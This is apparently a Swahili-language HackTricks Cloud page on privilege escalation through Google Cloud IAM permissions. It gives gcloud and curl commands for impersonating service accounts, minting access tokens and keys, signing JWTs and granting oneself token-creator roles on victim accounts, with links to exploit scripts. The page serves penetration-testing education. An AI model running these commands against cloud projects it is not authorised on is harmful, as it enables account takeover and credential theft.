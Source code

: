 # GCP - IAM Privesc

{% hint style="success" %}
Jifunze na kufanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze na kufanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwenye** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}

## IAM

Pata maelezo zaidi kuhusu IAM katika:

{% content-ref url="../gcp-services/gcp-iam-and-org-policies-enum.md" %}
[gcp-iam-and-org-policies-enum.md](../gcp-services/gcp-iam-and-org-policies-enum.md)
{% endcontent-ref %}

### `iam.roles.update` (`iam.roles.get`)

Mshambulizi mwenye ruhusa zilizotajwa ataweza kusasisha jukumu lililokabidhiwa kwako na kukupa ruhusa za ziada kwa rasilimali zingine kama:
```bash
gcloud iam roles update <rol name> --project <project> --add-permissions <permission>
```
Unaweza kupata script ya kuunda, kutumia na kusafisha mazingira ya vuln hapa na script ya python ya kutumia haki hii [**hapa**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.roles.update.py). Kwa maelezo zaidi angalia [**utafiti wa awali**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.getAccessToken` (`iam.serviceAccounts.get`)

Mshambulizi mwenye ruhusa zilizotajwa ataweza **kuomba tokeni ya ufikiaji inayohusiana na Akaunti ya Huduma**, hivyo inawezekana kuomba tokeni ya ufikiaji ya Akaunti ya Huduma yenye ruhusa zaidi kuliko zetu.
```bash
gcloud --impersonate-service-account="${victim}@${PROJECT_ID}.iam.gserviceaccount.com" \
auth print-access-token
```
Unaweza kupata script ya kuunda, kutumia na kusafisha mazingira ya hatari [**hapa**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/4-iam.serviceAccounts.getAccessToken.sh) na script ya python ya kutumia ruhusa hii [**hapa**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getAccessToken.py). Kwa maelezo zaidi angalia [**utafiti wa awali**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccountKeys.create`

Mshambuliaji mwenye ruhusa zilizotajwa ataweza **kuunda ufunguo unaosimamiwa na mtumiaji kwa ajili ya Service Account**, ambayo itaturuhusu kufikia GCP kama hiyo Service Account.
```bash
gcloud iam service-accounts keys create --iam-account <name> /tmp/key.json

gcloud auth activate-service-account --key-file=sa_cred.json
```
Unaweza kupata script ya kuunda, kutumia na kusafisha mazingira ya vuln [**hapa**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/3-iam.serviceAccountKeys.create.sh) na script ya python ya kutumia ruhusa hii [**hapa**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccountKeys.create.py). Kwa maelezo zaidi angalia [**utafiti wa awali**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

Kumbuka kwamba **`iam.serviceAccountKeys.update haitafanya kazi kubadilisha ufunguo** wa SA kwa sababu ili kufanya hivyo ruhusa `iam.serviceAccountKeys.create` pia inahitajika.

### `iam.serviceAccounts.implicitDelegation`

Kama una ruhusa ya **`iam.serviceAccounts.implicitDelegation`** kwenye Service Account ambayo ina ruhusa ya **`iam.serviceAccounts.getAccessToken`** kwenye Service Account ya tatu, basi unaweza kutumia implicitDelegation **kuunda token kwa hiyo Service Account ya tatu**. Hapa kuna mchoro kusaidia kuelezea.

![](https://rhinosecuritylabs.com/wp-content/uploads/2020/04/image2-500x493.png)

Kumbuka kwamba kulingana na [**hati**](https://cloud.google.com/iam/docs/understanding-service-accounts), ugawaji wa `gcloud` unafanya kazi tu kuunda token kwa kutumia [**generateAccessToken()**](https://cloud.google.com/iam/credentials/reference/rest/v1/projects.serviceAccounts/generateAccessToken) method. Hivyo hapa una jinsi ya kupata token kwa kutumia API moja kwa moja:
```bash
curl -X POST \
'https://iamcredentials.googleapis.com/v1/projects/-/serviceAccounts/'"${TARGET_SERVICE_ACCOUNT}"':generateAccessToken' \
-H 'Content-Type: application/json' \
-H 'Authorization: Bearer '"$(gcloud auth print-access-token)" \
-d '{
"delegates": ["projects/-/serviceAccounts/'"${DELEGATED_SERVICE_ACCOUNT}"'"],
"scope": ["https://www.googleapis.com/auth/cloud-platform"]
}'
```
Unaweza kupata script ya kuunda, kutumia na kusafisha mazingira ya vuln [**hapa**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/5-iam.serviceAccounts.implicitDelegation.sh) na script ya python ya kutumia haki hii [**hapa**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.implicitDelegation.py). Kwa maelezo zaidi angalia [**utafiti wa awali**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signBlob`

Mshambulizi mwenye ruhusa zilizotajwa ataweza **kusaini payloads za kiholela katika GCP**. Hivyo itawezekana **kuunda JWT isiyosainiwa ya SA na kisha kuituma kama blob ili kupata JWT iliyosainiwa** na SA tunayolenga. Kwa maelezo zaidi [**soma hii**](https://medium.com/google-cloud/using-serviceaccountactor-iam-role-for-account-impersonation-on-google-cloud-platform-a9e7118480ed).

Unaweza kupata script ya kuunda, kutumia na kusafisha mazingira ya vuln [**hapa**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/6-iam.serviceAccounts.signBlob.sh) na script ya python ya kutumia haki hii [**hapa**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-accessToken.py) na [**hapa**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signBlob-gcsSignedUrl.py). Kwa maelezo zaidi angalia [**utafiti wa awali**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.signJwt`

Mshambulizi mwenye ruhusa zilizotajwa ataweza **kusaini JSON web tokens (JWTs) zilizotengenezwa vizuri**. Tofauti na njia ya awali ni kwamba **badala ya kufanya google isaini blob inayojumuisha JWT, tunatumia njia ya signJWT ambayo tayari inatarajia JWT**. Hii inafanya iwe rahisi kutumia lakini unaweza tu kusaini JWT badala ya bytes zozote.

Unaweza kupata script ya kuunda, kutumia na kusafisha mazingira ya vuln [**hapa**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/7-iam.serviceAccounts.signJWT.sh) na script ya python ya kutumia haki hii [**hapa**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.signJWT.py). Kwa maelezo zaidi angalia [**utafiti wa awali**](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/).

### `iam.serviceAccounts.setIamPolicy` <a href="#iam.serviceaccounts.setiampolicy" id="iam.serviceaccounts.setiampolicy"></a>

Mshambulizi mwenye ruhusa zilizotajwa ataweza **kuongeza sera za IAM kwa service accounts**. Unaweza kuitumia **kujipa** ruhusa unazohitaji kuiga service account. Katika mfano ufuatao tunajipa `roles/iam.serviceAccountTokenCreator` juu ya SA ya kuvutia:
```bash
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountTokenCreator"

# If you still have prblem grant yourself also this permission
gcloud iam service-accounts add-iam-policy-binding "${VICTIM_SA}@${PROJECT_ID}.iam.gserviceaccount.com" \ \
--member="user:username@domain.com" \
--role="roles/iam.serviceAccountUser"
```
Unaweza kupata script ya kuunda, kutumia na kusafisha mazingira ya udhaifu [**hapa**](https://github.com/carlospolop/gcp\_privesc\_scripts/blob/main/tests/d-iam.serviceAccounts.setIamPolicy.sh)**.**

### `iam.serviceAccounts.actAs`

**Ruhusa ya iam.serviceAccounts.actAs** ni kama **ruhusa ya iam:PassRole kutoka AWS**. Ni muhimu kwa kutekeleza majukumu, kama kuanzisha Compute Engine instance, kwani inatoa uwezo wa "actAs" Service Account, kuhakikisha usimamizi salama wa ruhusa. Bila hii, watumiaji wanaweza kupata ufikiaji usiofaa. Zaidi ya hayo, kutumia **iam.serviceAccounts.actAs** kunahusisha mbinu mbalimbali, kila moja ikihitaji seti ya ruhusa, tofauti na mbinu nyingine zinazohitaji ruhusa moja tu.

#### Kujifanya akaunti ya huduma <a href="#service-account-impersonation" id="service-account-impersonation"></a>

Kujifanya akaunti ya huduma kunaweza kuwa muhimu sana **kupata ruhusa mpya na bora**. Kuna njia tatu ambazo unaweza [kujifanya akaunti nyingine ya huduma](https://cloud.google.com/iam/docs/understanding-service-accounts#impersonating\_a\_service\_account):

* Uthibitishaji **kwa kutumia funguo za kibinafsi za RSA** (imeelezwa hapo juu)
* Uidhinishaji **kwa kutumia sera za Cloud IAM** (imeelezwa hapa)
* **Kutekeleza kazi kwenye huduma za GCP** (inayofaa zaidi kwa kuathiri akaunti ya mtumiaji)

### `iam.serviceAccounts.getOpenIdToken`

Mshambulizi mwenye ruhusa zilizotajwa ataweza kuzalisha OpenID JWT. Hizi hutumika kuthibitisha utambulisho na hazibebi uidhinishaji wowote wa moja kwa moja dhidi ya rasilimali.

Kulingana na [**chapisho hili la kuvutia**](https://medium.com/google-cloud/authenticating-using-google-openid-connect-tokens-e7675051213b), ni muhimu kuonyesha hadhira (huduma unayotaka kutumia tokeni kuthibitisha) na utapokea JWT iliyosainiwa na google ikionyesha akaunti ya huduma na hadhira ya JWT.

Unaweza kuzalisha OpenIDToken (ikiwa una ufikiaji) na:
```bash
# First activate the SA with iam.serviceAccounts.getOpenIdToken over the other SA
gcloud auth activate-service-account --key-file=/path/to/svc_account.json
# Then, generate token
gcloud auth print-identity-token "${ATTACK_SA}@${PROJECT_ID}.iam.gserviceaccount.com" --audiences=https://example.com
```
Kisha unaweza kuitumia kufikia huduma na:
```bash
curl -v -H "Authorization: Bearer id_token" https://some-cloud-run-uc.a.run.app
```
Baadhi ya huduma zinazounga mkono uthibitishaji kupitia aina hii ya tokeni ni:

* [Google Cloud Run](https://cloud.google.com/run/)
* [Google Cloud Functions](https://cloud.google.com/functions/docs/)
* [Google Identity Aware Proxy](https://cloud.google.com/iap/docs/authentication-howto)
* [Google Cloud Endpoints](https://cloud.google.com/endpoints/docs/openapi/authenticating-users-google-id) (ikiwa unatumia Google OIDC)

Unaweza kupata mfano wa jinsi ya kuunda na OpenID token kwa niaba ya akaunti ya huduma [**hapa**](https://github.com/carlospolop-forks/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/iam.serviceAccounts.getOpenIdToken.py).

## Marejeleo

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mipango ya usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuate** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki mbinu za udukuzi kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

